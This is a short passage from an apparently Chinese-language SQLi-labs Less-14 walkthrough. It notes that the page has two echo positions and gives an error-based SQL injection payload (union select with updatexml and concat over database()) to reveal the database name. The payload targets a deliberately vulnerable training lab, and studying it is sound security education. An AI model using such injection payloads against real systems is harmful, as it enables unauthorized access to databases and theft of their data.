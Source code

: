 ![Less-14_8](./img/Less-14_8.PNG)

由此可确定只有两个回显位



+ 确认数据库名

~~~ shell
1" union select 1,updatexml(1,concat(0x7e,database(),0x7e),1) #
~~~

![Less-14_9](./img/Less-14_9.PNG)
